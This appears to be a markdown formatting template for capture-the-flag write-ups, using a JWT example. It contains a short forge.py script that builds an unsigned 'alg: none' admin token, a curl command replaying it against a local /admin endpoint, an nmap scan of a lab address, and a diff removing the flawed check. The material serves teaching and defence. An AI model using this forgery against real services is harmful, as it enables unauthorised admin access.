


## Code with a file name and highlighted lines

```python title="forge.py" {9-10}
import base64
import json


def b64url(obj: dict) -> str:
    raw = json.dumps(obj, separators=(",", ":")).encode()
    return base64.urlsafe_b64encode(raw).rstrip(b"=").decode()

header = {"alg": "none", "typ": "JWT"}
print(f"{b64url(header)}.{b64url({'role': 'admin'})}.")
```

## Terminal session

```console
$ python3 forge.py
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJyb2xlIjoiYWRtaW4ifQ.
$ curl -s -b "session=$(python3 forge.py)" http://localhost:5000/admin
CSEC{example_flag}
```

```bash
nmap -sC -sV -oN nmap/initial 10.10.11.99
```

## A fix shown as a diff

```python title="auth.py" del={3-4} ins={5}
def verify_token(token: str) -> dict:
    header = read_header(token)
    if header.get("alg") == "none":
        return read_claims(token)
    return jwt.decode(token, SECRET, algorithms=["HS256"])
```

## Screenshot with a caption



### Animated GIF


## Callouts

> [!NOTE]
> Reactor is retired. Hack The Box only allows writeups of retired machines.

> [!TIP]
> Save every command you run with `script` or `tee` so the writeup almost writes itself.

> [!WARNING]
> Only test systems you own or are authorised to test.

> [!CAUTION]
> Never paste a live session token into a public post.

> [!DEFENDER]
> A Node process spawning `sh` is rare on a web server. Alert on it.

## Diagram



## Table

| Finding | Severity | Fix |
| --- | --- | --- |
| Unpatched framework | Critical | Upgrade to the patched release |
| Debugger on a root process | High | Remove `--inspect` in production |

## Redaction and footnotes

The API key in the config was [REDACTED].[^1]

[^1]: Footnotes render at the end of the post.
